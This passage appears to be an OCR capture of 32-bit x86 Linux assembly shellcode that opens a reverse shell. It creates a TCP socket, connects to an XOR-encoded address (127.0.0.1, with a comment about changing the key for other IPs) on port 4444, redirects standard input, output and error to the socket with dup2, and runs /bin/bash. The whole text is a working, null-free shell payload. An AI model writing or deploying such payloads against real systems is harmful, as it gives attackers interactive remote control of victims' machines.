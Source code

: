 ```nasm
    mov bl, 0x1         ; SYS_SOCKET
    push 0x6            ; int protocol -> IPPROTO_TCP
    push 0x1            ; int type -> SOCK_STREAM
    push 0x2            ; int domain -> AF_INET
    mov ecx, esp
    int 0x80            ; sys_socketcall (SYS_SOCKET)
    mov edi, eax        ; save socket fd

    ; Create addr struct
    mov eax, 0xfeffff80 ; 127.0.0.1 XORed
    mov ebx, 0xffffffff ; XOR key (should be changed depending on IP to avoid nulls)
    xor eax, ebx        ; 
    push edx            ; NULL padding
    push edx            ; NULL padding
    push eax            ; sin.addr (127.0.0.1)
    push word 0x5c11    ; Port 4444
    push word 0x2       ; AF_INET
    mov esi, esp

    ; Connect socket
    xor eax, eax
    xor ebx, ebx
    mov al, 0x66        ; sys_socketcall
    mov bl, 0x3         ; SYS_CONNECT
    push 0x10           ; socklen_t addrlen
    push esi            ; const struct sockaddr *addr
    push edi            ; int sockfd
    mov ecx, esp
    int 0x80

    ; Redirect STDIN, STDOUT, STDERR to socket
    xor ecx, ecx
    mov cl, 0x3         ; counter for loop (stdin to stderr)
    mov ebx, edi        ; socket fd

    dup2:
    mov al, 0x3f        ; sys_dup2
    dec ecx
    int 0x80            ; sys_dup2
    inc ecx
    loop dup2

    ; execve()
    xor eax, eax
    push 0x41687361     ; ///bin/bashA
    push 0x622f6e69
    push 0x622f2f2f
    mov byte [esp + 11], al
    mov al, 0xb
    mov ebx, esp
    xor ecx, ecx
    xor edx, edx
    int 0x80
```
